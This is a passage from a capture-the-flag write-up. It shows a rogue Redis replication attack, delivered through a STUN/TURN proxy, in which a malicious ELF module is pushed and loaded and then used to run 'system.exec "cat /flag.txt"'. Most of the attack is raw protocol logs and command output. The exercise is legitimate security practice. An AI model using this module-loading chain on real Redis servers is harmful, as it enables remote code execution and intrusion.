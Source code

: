 ```python
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\nDIR\r\n$4\r\n/tmp\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[->] b'+OK\r\n'
[->] b'PING\r\n'
[<-] b'+PONG\r\n'
[->] b'REPLCONF listening-port 6379\r\n'
[<-] b'+OK\r\n'
[->] b'REPLCONF capa eof capa psync2\r\n'
[<-] b'+OK\r\n'
[->] b'PSYNC 1a6db93c270f1d9052f04a3372f80755954ab0da 1\r\n'
[<-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$47856\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x19\xb4\x00\x00\x00\x00\x00\x00\xd3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[<-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$11\r\n/tmp/exp.so\r\n'
[->] b'+OK\r\n'
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
[->] b'+OK\r\n'
[<<] system.exec "cat /flag.txt"
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$27\r\nsystem.exec "cat /flag.txt"\r\n'
[->] b'$5\r\n0\n96\n\r\n'
[>>] 0
[>>] 96
[<<] system.exec "cat /flag.txt"
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$27\r\nsystem.exec "cat /flag.txt"\r\n'
[->] b'$0\r\n\r\n'
```

Looking at the output, it looks as if pretty much everything went to plan, except for when we run our new `system.exec` command.  The
response is not quite what we expect.  Perhaps we need to make some additional changes to the rogue redis server code.  *Or*, we could just use
our previous script and proxy in a new interactive connection we know that works already.

```sh
╭─zoey@virtual-parrot ~/sec/csaw/webrtc ‹master*› 
╰─$ ./redis-proxy.py 
generated txn id b'49e40549d4c5a1d5b9fc9fb0'
Raw Allocation Request Response b'\x01\x03\x00

...

system.exec "cat /flag.txt"
$44
flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}
```

Success! When we hit CTRL+C to cancel the interactivity for the rogue server, it then sends its clean up commands, restoring the original
state.
